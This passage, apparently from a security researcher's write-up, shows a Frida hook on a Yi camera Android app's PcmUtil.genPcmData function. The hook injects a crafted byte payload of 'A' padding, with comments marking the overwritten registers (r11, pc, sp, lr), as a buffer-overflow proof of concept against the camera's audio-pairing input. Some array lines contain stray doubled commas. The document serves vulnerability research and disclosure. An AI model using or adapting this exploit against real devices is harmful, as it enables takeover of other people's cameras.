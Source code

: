 We still need to hook **genPcmData** to get the correct lengths, and allocate the correct amount of space for the above hook:

```
-javascript
let PcmUtil = Java.use("com.ants360.yicamera.util.PcmUtil");
PcmUtil["genPcmData"].implementation = function (str, str2, i, bVar) {
	console.log(`PcmUtil.genPcmData is called: str=${str}, str2=${str2}, i=${i}, bVar=${bVar}`);

	// Define byte string
	let payload = [0x62, 0x0A,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,	
	0x41, 0x41, 0x41, 0x41,
	0x41, 0x41, 0x41, 0x41,
	0x41, 0x41, 0x41,
	0x41, 0x41, 0x41, 0x41, // <- r11
	0x41, 0x41, 0x41, 0x41, // <- pc
	0x41, 0x41, 0x41, 0x41,, // <- r3
	0x41, 0x41, 0x41, 0x41,, // <- sp
	0x41, 0x41, 0x41, 0x41,, // <- lr
	0x41, 0x41, 0x41, 0x41,, // <- pc
	0x0A, 0x70];
	
	// Convert the byte array to a Uint8Array (probably unnecessary)
	let byteStringArray = new Uint8Array(payload);
	str2 = '';
	for (let i = 0; i < byteStringArray.length; i++) {
		str2 += String.fromCharCode(byteStringArray[i]);
	}

	// Set the byte string
	i = payload.length;

	console.log(`PcmUtil.genPcmData is called: str=${str}, str2=${str2}, i=${i}, bVar=${bVar}`);

	// Call the original function with modified arguments
	this["genPcmData"](str, str2, i, bVar);
};
```
